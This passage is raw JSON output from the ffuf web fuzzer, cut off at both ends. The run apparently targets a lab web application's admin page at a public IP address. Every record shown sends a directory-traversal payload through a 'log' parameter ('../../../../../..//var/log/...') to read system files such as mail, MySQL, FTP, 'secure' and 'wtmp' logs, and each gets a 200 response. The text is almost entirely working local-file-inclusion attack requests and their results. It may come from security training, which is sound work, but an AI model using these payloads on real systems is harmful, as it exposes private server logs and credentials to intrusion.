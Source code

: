 charset=UTF-8","redirectlocation":"","scraper":{},"duration":45515787,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/maillog","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5c9","FUZZ":"/var/log/mail.info"},"position":201,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45705578,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/mail.info","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5ce","FUZZ":"/var/log/messages"},"position":206,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":42673982,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/messages","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5c8","FUZZ":"/var/log/lighttpd/lighttpd.error.log"},"position":200,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":46172050,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/lighttpd/lighttpd.error.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5cf","FUZZ":"/var/log/mysqlderror.log"},"position":207,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":42714712,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/mysqlderror.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5d0","FUZZ":"/var/log/mysql.log"},"position":208,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43688758,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/mysql.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5d2","FUZZ":"/var/log/mysql/mysql.log"},"position":210,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43720718,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/mysql/mysql.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5d1","FUZZ":"/var/log/mysql/mysql-bin.log"},"position":209,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44457352,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/mysql/mysql-bin.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5d3","FUZZ":"/var/log/mysql/mysql-slow.log"},"position":211,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44370071,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/mysql/mysql-slow.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5d4","FUZZ":"/var/log/proftpd"},"position":212,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44930254,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/proftpd","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5d5","FUZZ":"/var/log/pureftpd.log"},"position":213,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44938554,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/pureftpd.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5d6","FUZZ":"/var/log/pure-ftpd/pure-ftpd.log"},"position":214,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44461201,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/pure-ftpd/pure-ftpd.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5d7","FUZZ":"/var/log/secure"},"position":215,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45307656,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/secure","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5d9","FUZZ":"/var/log/wtmp"},"position":217,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44303471,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/wtmp","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5d8","FUZZ":"/var/log/vsftpd.log"},"position":216,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44872623,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/log/vsftpd.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5da","FUZZ":"/var/log/xferlog"},"position":218,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html;